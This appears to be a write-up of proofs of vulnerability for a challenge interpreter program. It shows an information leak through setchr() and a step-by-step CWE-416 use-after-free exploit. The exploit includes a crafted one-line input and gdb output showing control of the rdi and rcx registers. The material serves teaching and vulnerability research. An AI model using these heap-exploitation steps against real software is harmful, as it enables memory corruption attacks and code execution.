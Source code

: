 Using the setchr() function the attacker can progressively set the NULL bytes to a non-NULL value until data is leaked.
>>> setchr(y, "A", 1);
>>> puts(y);
oA
>>>
....
>>> setchr(y, "A", 1);
>>> puts(y);
oAAAAAAAAAAAAAAAAAAAQ
>>>

The 'Q' character at the end is a leaked value. The pov uses some heuristics to guess if a value is likely to be an address and prints it to the screen.

## POV 2

CWE-416: Use After Free
Data Misuse

Each element in a list type is a pointer to a Value class.
>>> list a = [1,2,3];

When the function getbyindex() is called it returns a pointer to the value and not a copy.
>>> int i = getbyindex(a,0);

If an attacker saves a reference to the value and subsequently deletes that value from the list via the erase() function then a reference to the deleted value is still available.

>>> erase(a, 0);

Each Value class has a size of 56 bytes so if the attacker then creates a string of 55 bytes then the previously deleted value will be allocated and overwritten with the string contents.

>>> string s = "bbbbbbbbccccccccddddddddeeeeeeeeffffffffggggggggstrnaa";

An important bit here is the "strn" bytes which tell the variable "i" that it is a string type. Now, attempting to overwrite it with another string will gain control of the rcx and rdi registers:

Because of the way the allocations work this should all be send as a single command:

>>> list a = [1,2,4]; int i = getbyindex(a,0); erase(a, 0); string s = "bbbbbbbbccccccccddddddddeeeeeeeeffffffffggggggggstrnaa"; i = "zzzzzzzz";

(gdb) x /i $pc
=> 0x7ffff75cfa9b <__memmove_avx_unaligned_erms+139>:	mov    %rcx,-0x8(%rdi,%rdx,1)
(gdb) i r $rdi $rcx
rdi            0x6464646464646464	7234017283807667300
rcx            0x7a7a7a7a7a7a7a7a	8825501086245354106
(gdb)